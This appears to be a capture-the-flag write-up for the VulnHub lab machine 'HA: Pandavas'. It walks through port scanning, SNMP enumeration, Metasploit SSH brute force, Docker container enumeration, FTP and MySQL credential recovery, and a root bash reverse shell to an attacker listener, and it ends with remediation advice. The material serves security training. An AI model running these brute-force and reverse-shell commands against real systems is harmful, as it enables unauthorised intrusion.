




# HA: Pandavas — Writeup

| | |
|-|-|
| **Target IP** | 192.168.10.162 (host-only) |
| **Difficulty** | Medium |
| **OS** | Linux (Docker host) |
| **Flags** | 5 flags hidden across services |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/ha-pandavas,487/) |

## Attack Summary

Netdiscover → nmap → Dirb (hidden.docx flag1) → SNMP (flag2, user karna) → SSH brute (MSF) → Docker containers → FTP (flag3, base64 creds) → MySQL (flag4) → sudo bash → root (flag5)

## Methodology

1. Network discovery and port scanning
2. HTTP enumeration — hidden file with flag
3. SNMP enumeration — flag + username
4. SSH brute force (two users)
5. Docker container enumeration
6. FTP in container — credentials
7. MySQL in container — flag
8. Privilege escalation via sudo

---

## Step 1: Network Discovery

```bash
sudo netdiscover -i eth1 -r 192.168.10.0/24
```

Then a full port scan including UDP:

```bash
nmap -sV -p- 192.168.10.162
nmap -sU -sV 192.168.10.162
```

Open ports: 22 (SSH), 80 (HTTP), 161/UDP (SNMP).



---

## Step 2: HTTP Enumeration — hidden.docx

Browsed port 80, checked source and robots.txt. Nothing obvious.

```bash
dirb http://192.168.10.162 /usr/share/wordlists/dirb/big.txt -X .docx,.php,.txt
```

Found `/hidden.docx`. Opened it — Flag 1 was embedded in the document text (select-all to reveal hidden white-on-white text).



---

## Step 3: SNMP Enumeration — Flag 2 + Username

```bash
snmpwalk -v1 -c public 192.168.10.162 | more
```

Output revealed Flag 2 and username **karna** in the SNMP OID tree.



---

## Step 4: SSH Brute Force (karna + krishna)

Built a custom wordlist from the web page content (cewl):

```bash
cewl http://192.168.10.162 -w custom.txt
```

Metasploit SSH login scan:

```bash
msfconsole -q
use auxiliary/scanner/ssh/ssh_login
set RHOSTS 192.168.10.162
set USERNAME karna
set PASS_FILE custom.txt
run
```

SSH access obtained for **karna**. Listed other users and found **krishna**. Repeated brute force for krishna — success.

---

## Step 5: Docker Container Discovery

```bash
ssh karna@192.168.10.162
ifconfig
docker ps
```

Two containers running: one with FTP, one with MySQL.


---

## Step 6: FTP in Docker Container — Flag 3 + Credentials

Connected to the FTP container port:

```bash
ftp 172.17.0.2
# anonymous login
ls
cd root
ls
get .ash_history
cat .ash_history
```

`.ash_history` contained Flag 3 and a Base64-encoded password. Decoded:

```bash
echo "aWduaXRlQDEyMw==" | base64 -d
# ignite@123
```

---

## Step 7: MySQL in Docker Container — Flag 4

```bash
mysqldump -A -u root --password=ignite@123 | grep -i flag
```

Flag 4 found in the MySQL dump.

---

## Step 8: Privilege Escalation — Root Shell (Flag 5)

Checked `sudo -l` as krishna: full sudo access.

```bash
# Attacker: start listener
nc -nvlp 4444

# Victim: reverse shell as root
sudo -u root bash -i >& /dev/tcp/192.168.10.161/4444 0>&1
```

Root shell obtained. Flag 5 in `/root/`.



---

## Lessons Learned

1. **SNMP with default community strings** leaks system info, usernames, and flags
2. **Custom wordlists** (cewl from the target site) outperform generic rockyou for themed CTFs
3. **Docker containers** on a compromised host expose internal network services not visible from outside
4. **sudo all** misconfiguration is an instant root — always restrict sudo to specific commands

## Remediation

| Vulnerability | Fix |
|---------------|-----|
| SNMP default community string | Change community string; restrict SNMP access by IP |
| Weak SSH credentials | Use key-based auth; disable password auth |
| Docker internal services exposed | Use network namespaces; restrict container networking |
| sudo unrestricted | Limit sudo to specific commands per user |
